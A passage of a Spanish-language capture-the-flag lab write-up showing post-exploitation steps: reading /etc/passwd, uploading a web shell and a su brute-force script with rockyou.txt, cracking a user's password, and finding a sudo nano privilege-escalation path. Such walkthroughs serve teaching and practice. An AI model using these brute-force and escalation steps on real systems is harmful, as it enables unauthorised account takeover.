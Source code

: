 Pero no encontramos nada.

Al revisar el archivo `/etc/passwd`, vemos que existen tres usuarios en el sistema: `bobby`, `cafetero` y `john`.

Nuestro siguiente paso será transferir el diccionario `rockyou.txt` y un script para realizar un `brute force` contra las credenciales de estos usuarios desde la máquina víctima.

Como la víctima no dispone de `wget` ni `curl`, podemos aprovecharnos nuevamente del panel de subida que utilizamos anteriormente.

```
total 28
drwxrwxrwx 1 root     root     4096 Sep  8 19:08 .
drwxr-xr-x 1 root     root     4096 Apr 16  2024 ..
-rw-r--r-- 1 www-data www-data  187 Sep  8 19:05 Linux-Su-Force.sh
-rw-r--r-- 1 www-data www-data  464 Sep  8 19:08 rockyou.txt
-rw-r--r-- 1 www-data www-data 5490 Sep  8 18:45 shell.phar
```

Ya tenemos los archivos en la carpeta `uploads`, así que procedemos a ejecutar el script.

```bash
chmod +x Linux-Su-Force.sh
./Linux-Su-Force.sh cafetero rockyou.txt
```

Info:
```
./Linux-Su-Force.sh cafetero rockyou.txt 
------------------------------------------------
Contraseña encontrada para el usuario cafetero: 123123
```

Hemos encontrado la contraseña del usuario `cafetero` : `123123`.

```bash
su - cafetero
```

Con estas credenciales accedemos correctamente como el usuario `cafetero`.

Comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for cafetero on 507ac954e9cf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User cafetero may run the following commands on 507ac954e9cf:
    (john) NOPASSWD: /usr/bin/nano
```

Desde esta cuenta tenemos permisos para ejecutar el binario `nano` con privilegios del usuario `john`.
